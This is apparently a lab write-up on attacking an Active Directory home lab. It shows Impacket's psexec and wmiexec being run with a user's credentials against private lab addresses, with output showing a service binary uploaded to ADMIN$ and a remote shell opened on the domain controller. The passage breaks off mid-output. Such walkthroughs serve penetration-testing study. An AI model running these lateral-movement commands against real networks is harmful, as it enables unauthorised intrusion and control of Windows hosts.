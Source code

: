 Next we will try to gain access to the workstations using [Impacket Tools](https://github.com/SecureAuthCorp/impacket).

Impacket is a collection of Python tools for working with network protocols, most useful for connecting to Windows computers from Linux.

We will be looking at trying to connect to admin shares using:
- impacket-psexec
- impacket-smbexec
- impacket-wmiexec

---
Try to use "impacket-psexec" and charlie's cred to connect (he is admin on all computers) using WS01 IP:
```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackhound]
└─$ impacket-psexec xyz.com/charlie@192.168.175.132
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 192.168.175.132.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```

Try to use "impacket-psexec"  and charlie's cred to connect (he is admin on all computers) using DC1 IP:
```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackhound]
└─$ impacket-psexec xyz.com/charlie@192.168.175.155
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 192.168.175.155.....
[*] Found writable share ADMIN$
[*] Uploading file PkAULqXV.exe
[*] Opening SVCManager on 192.168.175.155.....
[*] Creating service UPut on 192.168.175.155.....
[*] Starting service UPut.....
[*] Opening SVCManager on 192.168.175.155.....
[-] Error performing the uninstallation, cleaning up
```

Try to use "impacket-wmiexec" and charlie's cred to connect (he is admin on all computers) using DC1 IP:
```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackhound]
└─$ impacket-wmiexec xyz.com/charlie@192.168.175.155  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
xyz\charlie

C:\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
```